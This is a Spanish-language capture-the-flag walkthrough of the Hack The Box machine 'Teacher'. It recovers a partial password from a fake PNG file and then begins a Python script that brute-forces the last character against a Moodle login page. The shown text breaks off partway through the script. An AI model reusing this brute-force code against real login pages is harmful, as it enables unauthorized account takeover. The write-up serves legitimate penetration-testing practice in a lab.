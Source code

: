 ![](/assets/images/Teacher/img3.png)

Vamos a acceder al supuesto "archivo png".

```bash
❯ curl http://10.10.10.153/images/5.png
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```



### Python Script For BruteForce

Vemos un mensaje que dice que el usuario Giovanni ha olvidado el último character de su password. Vamos a hacer un pequeño exploit en python para hacer un ataque de fuerza bruta.


```python
#!/usr/bin/python

import requests,string,sys,signal,time
from pwn import *

proxies={"http":"http://127.0.0.1:8080"}
url="http://teacher.htb/moodle/login/index.php"

password="Th4C00lTheacha"
dicc=string.ascii_letters+string.digits+string.punctuation


def bruteforcer():

	s = requests.Session()
	r1 = s.get(url)

	p1 = log.progress("Inciando Fuerza Bruta: ")


	for i in dicc:

		data = {
			"anchor":"",
			"username":"Giovanni",
			"password":password+"%s" % i
```